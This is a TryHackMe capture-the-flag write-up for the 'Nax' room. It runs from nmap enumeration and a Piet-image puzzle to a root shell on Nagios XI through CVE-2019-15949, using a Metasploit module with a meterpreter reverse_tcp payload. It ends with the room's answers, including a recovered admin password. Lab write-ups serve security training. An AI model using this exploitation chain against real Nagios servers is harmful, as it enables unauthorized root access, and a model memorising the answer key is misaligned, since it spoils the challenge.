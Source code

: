 ```yaml
---
author: Supaaasuge
title: Nax - TryHackMe Writeup 
date: 2024-05-04
Lastmod: 2024-05-04
description: "Writeup for the TryHackMe room - Nax"
categories:
  - TryHackMe
tags:
  - CVE-2019–15949
  - NagiosXI
---
```


## Enumeration

```bash
nmap -p- --min-rate 10000 --open 10.10.222.20
```
Ports open: `22`, `25`, `80`, `443`

Moving on to Service Version/TCP scan with vuilnerability detections scripts + OS detection:
```bash
sudo nmap -p22,25,80,443 -sCVT -O 10.10.222.20   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-04 23:45 EDT
Nmap scan report for 10.10.222.20
Host is up (0.33s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.18 (93%), Linux 3.19 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Ubuntu host
Port `22`(SSH): Version 7.2p2
Port `25`: Postfix SMTPd
- CommonName:ubuntu
Port `80`: Apache httpd 2.4.18
- CVE-2019-0211 Apache 2.4.17 < 2.4.38 Local privilege escalation
Port 443: Same as port 80

## Port 80

I then opened up firefox and check the site on port 80, and 443. 

![nagiosxi](/posts/nax-thm.png)
As you can see we found the `/nagiosxi` path from the source code.


Also, We see the line "Welcome to elements" followed by abbreviations from the periodic tables. At first, I didn't even notice this however It didn't occur to me until after I was not able to find anything useful from directory enumeration and SMTP enumeration.

Using this information, I searched for a list of abbreviations from the periodic tables.... After writing a short python script with itertools to gather the different combinations and trying directory brute forcing again... nothin. Damn. After scratching my head for bit and not getting anything back from trying to enumerate SMTP. I came back to the webpage decided to try to convert the Elements listed above to their corresponding element number then convert them to ASCII characters:

```bash
python3 -c "print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))"
/PI3T.PNg
```



This brought us to a `.png` image(name shown above), from here I decided to download so I can try and run `exiftools` on the image and see if I can't find any useful information etc, as the picture doesn't really give much away. After running the tool, I was able to find the Author of the photo; `Artist: Piet Mandrian`..... Nice!

After a quick google search of `piet`, one of the first pages was for an **esolang** (esoteric language) called `Piet`. Piet is described as a stack-based esoteric programming language in which programs look like abstract Paintings. This fits the picture we downloaded, so I then looked up a online translator for Piet. 

After running the image through the interpreter, we successfully got what looks like the `admin` username/password to then login as, nice!


After logging in, we are able to see that the Version of the version of Nagios XI in use is version `5.5.6`. 

**CVE-2019–15949**
Nagios 5.6.6 and prior allows remote command execution as **root**. The exploit requires access to the server as the nagios user. Or access as the admin user via the web interface. The `getprofile.sh` script invoked by downloading a system profile is executed as root via a passwordless sudo entry; the script executes check_plugin, which is owned by the nagios user. A user logged into NagiosXI with permissions to modify plugins, or the nagios user on the server, can modify the check_plugin executable and inseart malicious commands to execute as root.

To get root on this machine, you simply need to run the correct metasploit exploit, which if you selected the CVE above... will give you a shell as root!

```bash
$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search CVE-2019-15949

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution


msf5 > use 0
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > exploit
# shell as root!
```




###### Questions
What hidden file did you find?
> `/PI3T.PNg`

Who is the creator of the file?
> `Piet Mandrian`

What is the username found?
> `nagiosadmin`

What is the password you found?
> `n3p3UQ&9BjLp4$7uhWdY`

What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
> `CVE-2019-15949`

What is the full path of the exploit on `msfconsole`?
> `exploit/linux/http/nagios_xi_authenticated_rce`
